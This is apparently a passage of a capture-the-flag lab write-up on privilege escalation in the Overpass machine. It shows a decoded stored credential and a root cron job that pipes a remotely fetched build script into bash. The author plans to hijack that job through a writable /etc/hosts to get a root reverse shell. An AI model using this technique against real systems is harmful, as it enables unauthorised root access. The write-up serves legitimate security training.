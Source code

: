 ```console
Linux overpass-prod 4.15.0-108-generic #109-Ubuntu SMP Fri Jun 19 11:33:10 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 14:00:05 up  1:40,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
james    pts/0    10.9.169.84      13:59    5.00s  0.06s  0.02s w
uid=1001(james) gid=1001(james) groups=1001(james)

```
## Privilege Escalation

Upon logging in i find 3 important files, user.txt, todo.txt and .overpass

```console
james@overpass-prod:~$ cat todo.txt
To Do:
> Update Overpass' Encryption, Muirland has been complaining that it's not strong enough
> Write down my password somewhere on a sticky note so that I don't forget it.
  Wait, we make a password manager. Why don't I just use that?
> Test Overpass for macOS, it builds fine but I'm not sure it actually works
> Ask Paradox how he got the automated build script working and where the builds go.
  They're not updating on the website
james@overpass-prod:~$ cat .overpass
,LQ?2>6QiQ$JDE6>Q[QA2DDQiQD2J5C2H?=J:?8A:4EFC6QN.
```

I decoded the contents of .overpass to get his credentials

```
[{"name":"System","pass":"saydrawnlyingpicture"}]
```

I checked the crontab file for cronjobs and found one that runs as root
it executed the build script from the hostname overpass.thm
I checked /etc/hosts and saw it was just the localhost
I then checked the persmissions for /etc/hosts and found that i had read and write permissions so I could change the ip of overpass.thm and have it execute a reverse shell I create
```console
james@overpass-prod:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
james@overpass-prod:~$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 overpass-prod
127.0.0.1 overpass.thm
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
```